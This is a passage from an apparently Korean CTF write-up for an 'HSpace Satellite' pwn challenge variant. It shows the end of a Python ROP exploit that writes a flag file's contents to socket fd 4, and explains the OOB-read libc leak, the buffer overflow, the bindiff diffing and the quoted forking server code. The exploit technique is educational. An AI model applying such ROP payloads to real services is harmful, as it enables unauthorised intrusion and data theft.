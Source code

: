 ```python

#send flag
payload += p64(poprdi)
payload += p64(4)
payload += p64(poprsi2)
payload += p64(bss)
payload += p64(0)
payload += p64(poprdx)
payload += p64(100)
payload += p64(0)
payload += p64(libc_write)

p.send(payload)

p.send(b'./flag\x00')

p.interactive()
```


### 블로그 포스트 작성자의 추가적인 코멘트

이전 `HSpace Satellite` 문제에서 명령어 실행 기능을 제거해 다른 취약점 (OOB, BOF) 을 이용해 익스플로잇 해야하는 문제입니다. 바이너리 사이즈가 작을 때는, 직접 분석해 다른 점을 알아낼 수 있지만 바이너리 사이즈가 클 수록 변경점을 찾는데에 많은 시간이 소요됩니다. 이럴 떄 사용할 수 있는 유용한 툴이 있습니다. [bindiff](https://github.com/google/bindiff) 툴을 사용해 달라진 점을 쉽게 찾을 수 있으니, 사용해보시지 않았다면 이번 기회에 사용해보시는 것을 추천드립니다.

이 문제에서는 OOB read 취약점으로 libc leak 이 가능하고, BOF 취약점으로 ROP가 가능합니다. 하지만 입력을 열린 소켓으로 받기 떄문에, `system("/bin/sh")` 함수를 호출하는 식으로 ROP 페이로드를 작성한다면 명령어를 stdin 으로 전송할 수 없기 떄문에 명령어 실행이 불가능합니다. 이럴 때에는 flag 파일을 읽어 소켓을 통해 파일 내용을 출력하는 식으로 ROP 페이로드를 작성해야합니다. 이 떄 몇 번 FD(file descriptor)를 사용해야하는지 햇갈릴 수도있습니다.

FD 0,1,2 이 숫자들은 각각 stdin, stdout, stderr 을 나타내고 있고, 이후에는 바이너리에서 파일을 열거나 소켓을 열 때 3번부터 할당되게 됩니다. 

```c++
    server_sock = socket(PF_INET, SOCK_STREAM, 0);
    if (server_sock == -1)
        error_handling("socket() error");
...
    while (1) {
        client_addr_size = sizeof(client_addr);
        // 클라이언트 연결 수락
        client_sock = accept(server_sock, (struct sockaddr*)&client_addr, &client_addr_size);
        if (client_sock == -1)
            continue; // 오류 발생 시 무시하고 계속
        pid = fork(); // 새로운 프로세스 생성
        if (pid == -1) {
            close(client_sock);
            continue;
        }
        if (pid == 0) { // 자식 프로세스
            close(server_sock); // 자식에서는 서버 소켓 닫기
            
            while (1) {
                str_len = read(client_sock, message, BUF_SIZE - 1);
...
```
